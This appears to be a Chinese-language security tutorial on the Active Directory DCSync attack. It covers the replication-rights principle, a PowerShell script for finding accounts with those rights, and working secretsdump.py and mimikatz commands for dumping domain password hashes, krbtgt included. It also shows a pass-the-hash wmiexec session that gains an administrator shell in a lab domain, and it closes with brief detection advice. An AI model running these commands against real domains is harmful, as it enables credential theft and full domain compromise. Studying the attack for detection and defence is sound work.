






# DCsync原理及利用

## 原理

域中的账户、密码信息是存储在域控机器上`C:\Windows\NTDS\NTDS.dit`文件里, 以往是需要在域控机器上执行dump hash操作的；而通过DCSync，则可以从其他机器上，远程从`C:\Windows\NTDS\NTDS.dit`中获取密码hash。相比于在域控上访问lsass.exe进程或拷贝`NTDS.dit`、`System` 文件，其噪音更小。

[Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) 是一个RPC协议，用于复制和管理Active Directory中的数据。如果账户具有以下[扩展权限](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10))，即可调用DRS服务提供的接口[GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)，向Domain Controller请求复制NC中数据。`Replicating Directory Changes`不能复制secret domain, 必须加上`Replicating Directory Changes All`权限。

- Replicating Directory Changes (DS-Replication-Get-Changes)
  *Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which excludes secret domain data). This constraint is only meaningful for Domain NCs.*
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
  *Control access right that allows the replication of all data in a given replication NC, including secret domain data.*
- *Replicating Directory Changes In Filtered Set (rare, only required in some environments)*

默认情况下，Administrators, Domain Admins,  Enterprise Admins 及 Domain Controllers组中的账户有权限执行DCSync。






**DCSync 流程:**

1. Discovers Domain Controller in the specified domain name.
2. Requests the Domain Controller replicate the user credentials via [GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)


## 实现



第三个参数`DRS_MSG_GETCHGREQ* pmsgIn`里定义了需要同步的数据，其数据结构定义如下:


`secretsdump.py`中`def DRSGetNCChanges`对DCSync的实现:


可以看到secretdump.py 请求同步了这些数据:




## 利用

### 查找具有DCSync权限的账户

```
//AD自带工具
dsacls "DC=ring2,DC=com"
```


```
// powershell activedirectory module
import-module activedirectory
get-acl "AD:\DC=ring2,DC=com" |Select-Object -ExpandProperty Access
```



```
Import-Module ActiveDirectory

cd 'AD:DC=ring2,DC=com'

$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups

foreach ($ACL in $AllReplACLs){

    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)

    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])

    $RID = $SID.ToString().Split("-")[7]

    if([int]$RID -gt 1000)

    {

        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference

    }

}
```


### impacket-secretsdump.py

```
python secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py -just-dc [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py ring2.com/win10:Test1234@ringdc-pc.ring2.com
```

获取域控机器密码Hash后，可使用Pass-the-hash登录域控机器

```
C:\Users\win10\AppData\Local\Programs\Python\Python37\Scripts>python wmiexec.py ring2.com/administrator@ringdc-pc.ring2.com -hashes "aad3b435b51404eeaad3b435b51404ee:b9e0cfceaf6d077970306a2fd88a7c0a"
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
ring2\administrator
```


### mimikatz

```
mimikatz "lsadump::dcsync /domain:ring2.com /user:Administrator"
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
mimikatz "lsadump::dcsync /domain:[FQDN_DOMAIN] /all /csv"
```


## 检测

通过检测发出DsGetNCChange请求的不是已知域控IP来检测。

*获取域控IP：*

PowerShell Active Directory module cmdlet:

> Get-ADDomainController -filter * | select IPv4Address


PowerShell:

> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | select IPAddress





## 参考

[Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

[DC Sync Attacks With Secretsdump.py](https://www.youtube.com/watch?v=QfyZQDyeXjQ&t=697s)


